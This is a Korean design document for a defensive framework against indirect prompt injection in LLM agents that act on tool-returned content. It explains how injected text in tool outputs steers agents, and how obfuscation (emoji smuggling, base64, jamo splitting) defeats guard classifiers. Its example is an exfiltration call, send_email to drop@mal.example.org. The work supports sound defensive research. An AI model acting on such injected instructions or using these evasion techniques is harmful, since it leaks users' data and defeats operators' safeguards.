







# SafeAgent-KR 아키텍처

> 이 문서는 시스템이 **왜** 이렇게 생겼는지를 설명한다.
> 실행 계획·일정은 [../project_plan.md](../project_plan.md), 설정 값은 [../config/policy.yaml](../config/policy.yaml).

> ⚠️ **구현 상태 범례(이 문서는 설계 의도를 담아 일부 미구현 요소를 포함한다):**
> - ✅ **구현·런타임 배선**: Tier A 결정적 게이트 · before_model DLP 비식별 · after_tool DLP 토큰화 · before_tool 게이트 · authz/HITL/상태백엔드(서비스).
> - 🟡 **부분/log-only**: 분류기 레일(score만 기록, 강제 아님) · Tier B taint(value-provenance, egress 선점으로 독립기여 미미) · spotlight(구조체 출력이라 부분).
> - ⬜ **설계 전용/미구현**: **Tier C(고정계획·Q-LLM 격리)=`NotImplementedError`로 봉인** · **after_model 모더레이션=현재 no-op**(seam은 있으나 유해성 검사 미배선) · before_model 인젝션 레일 점수(after_tool 단일 레일만 실동작).
> 아래 다이어그램/설명의 Tier C·Q-LLM·after_model 모더레이션·before_model 레일은 **설계**이며 위 범례로 실제 상태를 판별할 것.

---

## 1. 한 문장 요약

**신뢰 경계를 도구 호출 지점에 세우고, 그 경계에서 공격 텍스트의 의미를 분류하지 않는다 결정적 규칙으로만 판정한다.**

이 한 문장에서 나머지 전부가 따라 나온다. 분류기가 로그 전용인 이유, 게이트가 난독화에 불변인 이유, `attempted`/`executed`를 분리하는 이유가 전부 여기서 파생된다.

---

## 2. 근본 문제 — 신뢰 경계는 어디인가

LLM 애플리케이션의 통념적 경계는 **입력단**이다. 사용자가 보낸 문자열을 검사하고, 통과하면 모델에 넣는다. 단일 호출 챗봇에서는 이게 맞다.

에이전트에서는 **틀린다.**



공격자는 사용자 발화를 통제하지 않는다. **도구가 반환하는 값**을 통제한다. 과거 티켓 본문, 검색된 문서, 상급자 메모 — 에이전트가 읽고 행동의 근거로 삼는 모든 것.

그래서 입력단 검사는 **공격이 지나가는 지점을 아예 관측하지 못한다.** 성능이 낮아서가 아니라 위치가 틀려서다.

### 2.1 한국어에서 문제가 한 겹 더 있다

| 모델 | 문제 |
|---|---|
| `kanana-safeguard-prompt` (한국어 인젝션 SOTA) | **단일 사용자 발화 채점기.** 도구 반환값을 볼 구조가 없다 |
| `Llama-Prompt-Guard-2-86M` | **평가 언어에 한국어가 없다.** 이기든 지든 아무것도 측정되지 않는다 |
| `google/shieldgemma-2b` | 모델카드가 **"available in English"로 명시**(한국어 지원·평가 미문서화) + manual gated + 비-OSI |

즉 한국어 에이전트에는 도구 채널을 보는 가드가 **존재하지 않는다.** 이것이 본 과제의 측정 대상이다.

---

## 3. 전체 구조



### 3.1 4개 seam — 무엇이 어디서 일어나는가

| seam | 시점 | 하는 일 | 성격 |
|---|---|---|---|
| `before_model` | 모델 호출 직전 | PII 비식별 · 비신뢰 스팬 spotlight · 인젝션 레일 점수 기록 | 준비 + 계측 |
| `after_model` | **매 홉** 모델 응답 직후 | 유해성 모더레이션 · 최종 응답 시 복원 | 계측 |
| **`before_tool`** | **도구 실행 직전** | **결정적 정책 판정 — 여기가 유일한 강제 지점** | **강제** |
| `after_tool` | 도구 실행 직후 | 출력 격리 파싱 · PII 토큰화 · `Tainted` 래핑 · 레일 재스캔 | 오염 봉인 + 계측 |

**`after_model`이 루프 안에 있는 이유** — 루프 밖 1회로 두면 중간 홉의 모델 출력이 검사되지 않는다. 다단 에이전트에서 유해 콘텐츠는 최종 응답이 아니라 중간 추론에서 나올 수 있다. (`policy.yaml: agent.after_model_scope = per_hop`)

**강제 지점이 하나뿐인 이유** — 강제가 여러 곳에 흩어지면 어느 규칙이 무엇을 막았는지 추적이 불가능해지고, 애블레이션에서 층별 기여를 분리할 수 없게 된다. `before_tool` 하나로 모으면 모든 차단이 `policy.yaml`의 단일 키로 역추적된다(지표 H14, 목표 100%).

---

## 4. 방어 3계층

3계층 전부 **결정적(deterministic)** 이다. 학습된 파라미터가 하나도 없다.

### 4.1 Tier A — per-tool 정책 게이트

판정 순서. 첫 실패에서 즉시 차단하고, 판정 근거 키를 트레이스에 기록한다.

```
1. tools: 에 선언된 도구인가          → BLOCK(unknown_tool)
2. frozen plan 에 포함된 도구인가      → BLOCK(plan_violation)      [Tier C]
3. 인자 스키마 검증 type/len/min/max   → BLOCK(arg_schema)
4. allowlist_ref 검사                  → BLOCK(egress_violation)
     · email  : 도메인 매칭 + allow_subaddressing=false 면 '+' 태그 거부
     · account: 정확 일치
5. forbid_tainted_args 의 .sources 검사 → BLOCK(tainted_arg)        [Tier B]
6. requires_hitl 이면 승격             → stub 은 항상 deny
7. rehydrate_args 는 내부 신뢰 도구만
→ 통과: 실행. executed = true
```

**핵심 성질 — 게이트는 공격 텍스트의 의미를 분류하지 않는다.** (형식 검증·도메인 대조·egress DLP 스캔에서 문자열을 보긴 하지만, '이 문장이 공격인가'를 판정 근거로 쓰지 않는다.)

`send_email(to="drop@mal.example.org")`는 페이로드가 정중한 한국어든, 이모지 variation selector로 난독화됐든, base64든, 자모 분해됐든 **동일하게 차단**된다. 판정 입력이 텍스트가 아니라 **구조화된 인자값과 정책 테이블**이기 때문이다.

이것이 R11 적대적 하네스에서 분류기는 무너지고 Tier A는 불변인 이유이며, 프로젝트 논지의 구조적 근거다.

### 4.2 Tier B — 오염 추적 (taint provenance)

```python
@dataclass(frozen=True)
class Tainted:
    value: Any
    sources: frozenset[str]     # {"search_kb#0", "escalate_to_human#1"}
```



- `returns_untrusted: true` 도구의 출력을 래핑
- 파생값에 `sources`를 **합집합 전파**(연결·포맷·부분추출 전부)
- 싱크 인자의 `sources`가 비어 있지 않으면 차단

**보장하는 성질:** 비신뢰 데이터가 **제어흐름이나 싱크를 고를 수 없다.** 데이터로 흐르는 것은 허용하되, 무엇을 할지 결정하는 자리에는 오지 못한다.

> **선행연구 명시** — taint provenance는 ARGUS(arXiv 2605.03378, ASR 28.8%→3.8% @ utility 87.5%)가 이미 발표했다. 본 과제는 **신규성을 주장하지 않고** 그 수치를 외부 기준점으로 인용한다.

### 4.3 Tier C — 고정 계획 + 격리 Q-LLM



- **frozen plan** — 비신뢰 콘텐츠 진입 **전에** 계획을 동결
- **Q-LLM** — 도구 없는 격리 모델이 비신뢰 출력을 **타입값으로만** 환원

**정직한 트레이드오프:** 고정계획은 동적 흐름의 유용성을 희생한다. 그래서 고위험 도구 서브셋에만 적용하고, **유용성 손실을 반드시 병기**한다. 그리고 Tier C는 성능이 아니라 **비용**(홉당 추가 토큰·지연)으로 평가한다.

---

## 5. 분류기 레일 — 왜 강등되어 있는가



레일은 `before_model`과 `after_tool` 양쪽에 걸리지만 **차단 권한이 없다.**

**규약이 아니라 스키마로 강제한다.** `policy.yaml`의 `classifiers.*.mode`는 `log_only`만 유효하며, `block`을 쓰면 로더가 `ValueError`를 던진다. 즉 **설정 파일이 차단을 표현할 수 없다.** `tests/test_rail_cannot_override_gate.py`가 이를 봉인한다.

**왜 이렇게까지 하는가** — `'benign'` 판정이 결정적 게이트를 무효화하는 경로가 하나라도 있으면, 분류기 우회가 곧 시스템 우회가 된다. 문헌이 이미 확립한 사실(arXiv 2504.11168 이모지 스머글링 100% ASR, 2510.09023 12개 방어 중 대부분 >90% ASR)을 아키텍처에 반영한 것이다.

**그럼 왜 두는가** — 두 가지 이유로 **측정 장치**다.
1. **채널 조건부 격차 측정 (3-arm)** — 동일 페이로드를 (a) 발화, (b1) 도구출력·대화배선, (b2) 도구출력·문자열배선으로 넣어 계측한다. `before_model` seam이 b1(대화)을, `after_tool` seam이 b2(문자열)를 **런타임에서 동시에** 잰다. b1은 chat template 붕괴로 구조적으로 못 보고, b2는 보더라도 난독화로 뚫린다 → **어느 배선에서도** 분류기가 강제 수단이 될 수 없다. (배선 반박 선점, 사전등록 P1 참조)
2. **자기 붕괴 실증** — 우리가 만든 레일도 난독화에서 함께 무너지는 것을 보인다

### 5.1 온디바이스 가드레일 — "위치"가 아니라 "역할"이 쟁점

"온디바이스 모델을 가드레일로 써야 하지 않나"라는 질문은 **독립된 두 축을 융합**한 것이다.
- **추론 위치**: API vs 온디바이스 → **논지와 무관.** 분류기를 RunPod에서 돌리든 API로 돌리든, 텍스트를 읽는 분류기는 난독화로 뚫린다.
- **역할**: telemetry(log) vs enforcement(block) → **이것이 쟁점.**

그래서 온디바이스 모델은 **넣되 두 자리에만** 둔다:

| 레지스터 | 설정 키 | 강제 | 스키마 |
|---|---|---|---|
| 텔레메트리 레일 | `classifiers.*` | ❌ log만 | `mode: log_only` **고정**(로더가 block 거부) |
| negative-control | `defenses.classifier_gate` | ⚠️ 추가 차단만 | fail-open, Tier A Block override 불가 |

**`classifier_gate`(negative control)** 은 관행적 구성("온디바이스 분류기를 강제 경계로")을 **그 자신의 언어로** 반박한다: 오염 도구출력을 채점→격리→후속 고위험 도구 차단. clean 공격은 막지만(동작하는 척), 난독화 홀드아웃에서 t-ASR이 회복(붕괴)하고 Tier A는 불변이다. **차단 로직은 `classifiers.*`가 아니라 `defenses` 축에 있으므로 log_only 스키마 보증은 훼손되지 않는다.** 합성 봉인: 분류기 benign은 Tier A Block을 절대 무를 수 없다([tests/test_rail_cannot_override_gate.py](../tests/test_rail_cannot_override_gate.py)).

**RailScorer 사다리** (동일 `score(text)->[0,1]` 계약, [src/rails/base.py](../src/rails/base.py)): HeuristicRail(의존성0) → KoAgentGuardRail(sklearn TF-IDF+LR, CPU) → (RunPod) e5-small+LR / Kanana / ShieldGemma. **온디바이스는 5 RPM 병목의 해법이기도 하다** — 로컬 레일은 rate limit이 없어 스윕을 오프라인으로 돌린다.

**CPU 실측 (2026-07-25):** ko_agentguard in-domain F1 0.99 → base64 난독화 F1 **0.0**(P3 붕괴). 영어학습 레일이 한국어 인젝션엔 **0.022**(교차언어 눈멂). 즉 분류기는 **언어·난독화 양쪽**에 취약, 게이트는 양쪽에 불변. → [results/ondevice_rail_notes.md](../results/ondevice_rail_notes.md)

---

## 6. PIIVault — 수명이 곧 설계



**요청당 정확히 1개.** 두 실패모드가 모두 치명적이라 유닛테스트로 봉인한다.

| 잘못된 수명 | 결과 |
|---|---|
| **fresh-per-call** | 홉마다 새 매핑 → `<KR_RRN_1>`이 홉마다 다른 사람 → **coreference 붕괴** |
| **global singleton** | 요청 A의 매핑이 요청 B에 노출 → **동시 요청 간 PII 누출** |

**싱크별 계측** — 원본 PII가 모델 호출 / 외부 도구 / 로그 각각에 도달했는지를 독립적으로 잰다(목표 0%). "어딘가 새지 않았다"가 아니라 "어느 싱크로도 새지 않았다"를 증명해야 한다.

**폴백** — `RegexVault`가 동일 `Vault` 프로토콜을 구현한다(의존성 0, ~150줄). Presidio가 90분 안에 기동하지 않으면 전환한다. 폴백이 별도 코드베이스가 아니라 **같은 프로토콜의 다른 구현**이라 전환 비용이 0에 수렴한다.

---

## 7. Provider 추상화

기존 v1 계약은 `generate(text: str)`였다. 문자열 하나로는 대화 이력을 담을 수 없고, `GenResult`에 `tool_calls` 필드가 없어 **함수 호출을 표현할 방법이 아예 없었다.** ReAct 루프가 원리적으로 그 위에 존재할 수 없다.

```python
class Provider(Protocol):
    async def generate(self, messages: list[Msg], cfg: GenConfig) -> GenResult: ...
```

**구현 계약 4가지 — 전부 테스트로 봉인:**

| # | 계약 | 위반 시 |
|---|---|---|
| 1 | **모든 functionCall part 순회** | 첫 part만 읽으면 병렬 호출 공격을 **조용히 놓친다** |
| 2 | `automatic_function_calling = False` 강제 | provider가 도구를 대신 실행 → `before_tool` seam이 발동할 기회 자체가 없음 |
| 3 | `safety_threshold` 4개 HarmCategory 명시 | Gemini 2.5+는 안전 필터 **기본 OFF** |
| 4 | 안전 차단은 예외가 아니라 `blocked=True` | 루프가 죽으면 트레이스가 안 남음 |

**구현체 3종:** `GeminiProvider`(기본) · `FakeProvider`(카세트 record/replay) · `OpenAIProvider`(스왑).

**FakeProvider를 GeminiProvider보다 먼저 만든다.** API 키·쿼터·네트워크를 크리티컬 패스에서 제거한다. 폴백이 아니라 **어차피 필요했던 테스트 더블**이다.

> **카세트 무결성** — 손저작 카세트로 만든 표는 날조된 수치다. `allow_handwritten: false`가 기본이고, 켜면 `synthetic_cassette=true`가 강제 부착되어 결과 표에서 자동 제외된다. 재생 arm은 `replayed=true` 라벨이 붙고 **분산 주장에서 제외**된다(동일 입력의 표준편차는 허위이므로).

---

## 8. 트레이스 — 측정의 전부

```jsonc
{
  "episode_id": "...", "hop": 2,
  "tool_call": {"name": "send_email", "args": {...}, "call_id": "send_email#0"},
  "attempted": true,                      // 모델이 호출을 시도했는가
  "executed": false,                      // ★ 실제로 실행되었는가
  "gate_decision": "BLOCK",
  "gate_rule": "egress.email_domains",    // policy.yaml 의 단일 키
  "taint_sources": ["search_kb#0"],
  "rail_scores": {"kanana_injection": 0.03, "ko_agentguard": 0.71},
  "dlp_spans": [...], "latency_ms": 412
}
```

### 8.1 `attempted` / `executed` 분해가 왜 중요한가



게이트는 모델이 **시도하는 것을 바꾸지 않고 실행만 막는다.** 두 수치를 분리해 보고하면:

- **분류기**를 켜면 → 두 수치가 함께 조금 내려간다 (모델이 덜 속거나, 우연히 덜 시도)
- **게이트**를 켜면 → `attempted`는 불변인데 `executed`만 0으로 떨어진다

이 대비가 "분류기는 확률적 / 게이트는 구조적"을 **데이터로** 보여준다. 비용은 불리언 필드 하나이고, 선점되지 않은 계측이다.

> `executed` 필드는 **hop 0부터** 기록되어야 한다. 나중에 추가하면 이전 실행 결과가 전부 무효가 된다.

---

## 9. 애블레이션은 아키텍처에서 자동으로 나온다

`policy.yaml`의 `defenses.*` 불리언이 **곧 표의 각 행**이다. 코드에 실험 분기를 넣지 않는다.

```yaml
defenses:
  plea:      {enable: false}   # theater 기준선
  spotlight: {enable: false}
  tier_a:    {enable: false}   # 결정적 게이트
  tier_b:    {enable: false}   # taint
  tier_c:    {enable: false}
```

| arm | ASR_attempted | **t-ASR(executed)** | Utility | BPR | p vs 이전 |
|---|---|---|---|---|---|
| 무방어 | | | | | — |
| +plea | | | | | |
| +Kanana [LOG] | | | | | |
| +본 레일 [LOG] | | | | | |
| **+Tier A** | **≈불변** | **급락** | | | |
| +Tier B | | | | | |
| +Tier C | | | | | |

**× 2 조건: {원본, 난독화}.** 난독화 열에서 분류기 행은 회복되고 Tier A 행은 불변인 것이 논지의 완결이다.

**통계 규율** — 모든 arm이 동일 케이스 집합을 돌므로 **대응 표본(paired)** 이다. 독립 표본으로 보면 n≈300에서 MDD ≈ 12pp라 **Tier B의 한계 기여가 원리적으로 보이지 않는다.** McNemar exact로 전환하면 MDD ≈ 4–5pp. `p ≥ 0.05`인 델타는 표에 `n.s.`로 표기하고 본문에서 "기여했다"고 쓰지 않는다.

**과차단 분모 필수** — 모든 도구를 막으면 t-ASR은 0이지만 시스템은 무용하다. 각 행에 **BPR(정상 통과율)을 t-ASR과 같은 표에** 병기하지 않으면 애블레이션이 해석 불가능하다.

---

## 10. 설계 원칙 요약

| 원칙 | 구현 |
|---|---|
| **강제 지점은 하나** | `before_tool`에만 차단 권한. 모든 차단이 `policy.yaml` 단일 키로 역추적 |
| **게이트는 공격 텍스트의 의미를 분류하지 않는다** | 판정 입력이 도구 identity + 구조화 인자 + 정책 테이블 → 난독화 불변 |
| **학습된 것은 강제하지 않는다** | 레일은 스키마상 `log_only`만 표현 가능 |
| **fail-closed** | DLP·레일 예외 시 통과가 아니라 차단 |
| **설정이 곧 실험 축** | `defenses.*`가 애블레이션 행. 코드에 실험 분기 없음 |
| **폴백은 같은 프로토콜의 다른 구현** | `Provider`·`Vault` 프로토콜 하나가 실제/폴백을 모두 덮음 |
| **측정 기제를 먼저 만든다** | 트레이스 스키마가 hop 0부터 완비 |
| **자기 방어도 무너뜨려 본다** | R11이 우리 레일의 붕괴를 실증 |

마지막 원칙이 이 프로젝트의 성격을 규정한다. **우리 분류기가 남의 분류기를 이겼다**가 아니라 **분류기라는 범주 전체가 이 채널에서 강제 수단이 될 수 없다**가 주장이므로, 자기 것을 함께 무너뜨리는 측정이 논증의 핵심이지 약점이 아니다.
